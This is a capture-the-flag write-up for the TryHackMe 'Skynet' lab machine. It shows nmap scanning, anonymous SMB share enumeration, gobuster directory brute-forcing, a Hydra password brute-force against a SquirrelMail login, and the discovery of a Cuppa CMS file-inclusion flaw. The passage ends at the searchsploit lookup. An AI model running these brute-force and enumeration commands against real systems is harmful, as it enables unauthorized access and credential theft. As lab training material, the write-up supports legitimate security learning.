

<table>
  <tr>
    <td>
      
    </td>
    <td width="900">
      <h1>Skynet — Write-up</h1>
      <p>Deploy and compromise the target machine to retrieve the user and root flags.</p>
      <p><strong>Difficulty:</strong> Easy 🟢</p>
       &nbsp;
       &nbsp;
      
    </td>
  </tr>
</table>

> **Description:** A vulnerable Terminator-themed Linux machine.

## 🎯 Mission Objectives

In this laboratory, the following questions must be answered:

- What is Miles' email password?
- What is the hidden directory?
- What is the vulnerability called when a remote file can be included for malicious purposes?
- **User Flag:** `THM{...}`
- **Root Flag:** `THM{...}`

```bash
export TARGET_IP=<tryhackme_machine_ip>
```
## 🔍 Enumeration

### Nmap Scan Results

The initial scan reveals several open ports, indicating a relatively large attack surface:

```bash
nmap -sS -sV -T4 --top-ports 10000 $TARGET_IP

Starting Nmap 7.98 ( https://nmap.org ) at 2025-12-27 15:44 -0300
Nmap scan report for 10.64.185.128
Host is up (0.15s latency).
Not shown: 8374 closed tcp ports (reset)

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Potential Entry Points

The presence of SMB and email-related services (POP3/IMAP) suggests a common attack pattern for this machine.
As an initial approach, SMB shares should be enumerated to determine whether anonymous or guest access is enabled.

## 📂 SMB Enumeration

### Investigating the Anonymous Share

Since an **anonymous SMB share** is available, the next logical step is to enumerate it and inspect its contents.

```bash
smbclient -L //$TARGET_IP/

Password for [WORKGROUP\attack]:

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
anonymous       Disk      Skynet Anonymous Share
milesdyson      Disk      Miles Dyson Personal Share
IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))

Reconnecting with SMB1 for workgroup listing.

Server               Comment
---------            -------

Workgroup            Master
---------            -------
WORKGROUP            SKYNET
```

Findings

anonymous: An SMB share explicitly labeled as Skynet Anonymous Share. This is highly likely to contain useful information.

milesdyson: A personal share belonging to Miles Dyson. Access will likely require valid credentials.

Accessing the Anonymous Share

```bash
smbclient //$TARGET_IP/anonymous

Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.

smb: \> ls
.                                   D        0  Thu Nov 26 13:04:00 2020
..                                  D        0  Tue Sep 17 04:20:17 2019
attention.txt                       N      163  Wed Sep 18 00:04:59 2019
logs                                D        0  Wed Sep 18 01:42:16 2019

9204224 blocks of size 1024. 5831484 blocks available
```

```bash
Downloading Files
smb: \> get attention.txt

smb: \> cd logs\
smb: \logs\> ls

log2.txt                            N        0  Wed Sep 18 01:42:13 2019
log1.txt                            N      471  Wed Sep 18 01:41:59 2019
log3.txt                            N        0  Wed Sep 18 01:42:16 2019

smb: \logs\> get log1.txt
```

File Content Analysis

attention.txt
```text
A recent system malfunction has caused various passwords to be changed. 
All skynet employees are required to change their password after seeing this.

-Miles Dyson
```
log1.txt
```text
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```
Analysis Summary

attention.txt contains a notice from Miles Dyson indicating that employee passwords were recently changed.

log1.txt appears to be a password wordlist, likely related to the password changes mentioned in the note.

This wordlist may be useful for credential attacks against email services or SMB authentication.

## 🌐 Web Enumeration

### Directory Brute-Forcing (Gobuster)

To identify hidden directories and web applications, a directory brute-force scan was performed against the web server.

```bash
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlists/dirb/common.txt
text
Copiar código
===============================================================
Gobuster v3.8
===============================================================
[+] Url:                     http://10.64.185.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403)
/.htaccess            (Status: 403)
/.htpasswd            (Status: 403)
/admin                (Status: 301) [--> /admin/]
/config               (Status: 301) [--> /config/]
/css                  (Status: 301) [--> /css/]
/index.html           (Status: 200)
/js                   (Status: 301) [--> /js/]
/server-status        (Status: 403)
/squirrelmail         (Status: 301) [--> /squirrelmail/]
===============================================================
Finished
===============================================================
```
Key Findings

/squirrelmail: A web-based email client (SquirrelMail), confirming the presence of an accessible webmail login interface.

/admin and /config: Standard directories that may contain sensitive information, although access appears to be restricted or redirected.

The presence of SquirrelMail aligns with the POP3/IMAP services discovered during Nmap enumeration.

### Next Steps

Given the discovery of a webmail interface and the previously obtained password wordlist, the next step is to attempt credential-based attacks against the SquirrelMail login portal.

### SquirrelMail Login Interface


## 🔐 Credential Attack — SquirrelMail

### Brute-Forcing Webmail Credentials

Based on the discovered username (**milesdyson**) and the password wordlist obtained from the SMB share, a credential attack was performed against the SquirrelMail login endpoint using **Hydra**.

```bash
hydra -l milesdyson -P log1.txt $TARGET_IP http-post-form \
"/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect"

Hydra v9.6 (c) 2023 by van Hauser/THC

[DATA] attacking http-post-form://10.64.185.128:80/squirrelmail/src/redirect.php
[80][http-post-form] host: 10.64.185.128   login: milesdyson   password: cyborg007haloterminator

1 of 1 target successfully completed, 1 valid password found
Hydra finished at 2025-12-27 18:22:14
```

Valid Credentials Discovered

> Username: milesdyson

> Password: cyborg007haloterminator

### Accessing the Webmail Interface

With valid credentials obtained, authentication to the SquirrelMail webmail interface is now possible via the following URL:

```text
http://10.64.185.128/squirrelmail/src/webmail.php
```

## 📧 Email Enumeration — SquirrelMail

After successfully authenticating to the SquirrelMail interface, access to Miles Dyson’s mailbox is obtained.

### Inbox Overview

The following image shows the **SquirrelMail inbox page**, confirming successful authentication.


### Email Content Analysis

One of the emails contains **sensitive information**, including credentials related to SMB access.


## 📂 SMB Enumeration — Miles Dyson Share

Using the credentials obtained from the email, authenticated access to Miles Dyson’s personal SMB share is now possible.

```bash
smbclient -U milesdyson //$TARGET_IP/milesdyson

smb: \> ls
Improving Deep Neural Networks.pdf
Natural Language Processing-Building Sequence Models.pdf
Convolutional Neural Networks-CNN.pdf
Neural Networks and Deep Learning.pdf
Structuring your Machine Learning Project.pdf
notes/
```
Exploring the notes Directory

```bash
smb: \> cd notes
smb: \notes\> ls
important.txt
get important.txt
```

```bash
cat important.txt

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

## Hidden Web Directory Discovered

The file reveals a hidden CMS directory, likely intended for internal or development use.


http://10.64.185.128/45kra24zxs28v3yd/


## 🌐 CMS Enumeration

### Directory Enumeration — Hidden CMS

After discovering the hidden CMS directory, further directory enumeration was performed to identify administrative endpoints.

```bash
gobuster dir -u http://$TARGET_IP/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirb/common.txt

===============================================================
Gobuster v3.8
===============================================================
[+] Url:                     http://10.64.185.128/45kra24zxs28v3yd/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/administrator        (Status: 301) [--> /administrator/]
/index.html           (Status: 200)
===============================================================
Finished
===============================================================
```
## Administrator Panel Identified

The scan reveals an administrator login panel, indicating the presence of a web-based CMS administration interface.

http://10.64.185.128/45kra24zxs28v3yd/administrator/


## 🧨 Vulnerability Identification — Cuppa CMS

The administrator panel indicates that the application is running **Cuppa CMS**.  
A quick vulnerability search reveals a known **Local/Remote File Inclusion (LFI/RFI)** vulnerability affecting this CMS.

This vulnerability allows arbitrary file inclusion via user-controlled input, potentially leading to full server compromise.

<details>
<summary><strong>🔍 Exploit discovery (searchsploit)</strong></summary>

```bash
searchsploit cuppa cms
```
```bash
searchsploit -m php/webapps/25971.txt

```
</details>


